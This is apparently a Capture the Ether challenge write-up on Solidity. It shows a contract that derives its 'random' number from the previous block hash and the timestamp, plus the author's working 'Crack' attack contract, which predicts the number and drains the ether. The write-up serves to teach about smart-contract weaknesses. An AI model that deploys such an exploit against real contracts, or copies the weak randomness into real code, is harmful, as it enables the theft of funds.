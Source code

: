 # Catch the Ether 4: Guess the NEW number

Random numbers cannot be created inside solidity, oracles are suggested

(The file names of GuessTheSEcretNumber.md and GuessTheNewNumbers.md are false, the titles in the file are correct)

## The Task Intro

The number is now generated on-demand when a guess is made.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## The Solution

The subtile difference to the task before is, that the "random" or "secret" number now is calculated in a function and not in the constructor. This time it is not possible to look anything up from etherscan, this must be done in code, I chose a smart contract. So I precalculated the secret first in my attack contract, then sent the guess to the contract. Call the eth back from the payback function. Important was the receive function, which was called in solidity version 0.4.21 just function() - that was the most research I needed to do for this challenge.

Done 🎉️.

```apache
contract Crack {
    GuessTheNewNumberChallenge gtnnc;

    function Crack(GuessTheNewNumberChallenge _gtnnc) public payable {
        gtnnc = _gtnnc;
    }

    function attack() public payable {
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
        gtnnc.guess.value(msg.value)(answer);
    }

    function payback() public {
        msg.sender.transfer(this.balance);
    }

    function() public payable {}
```
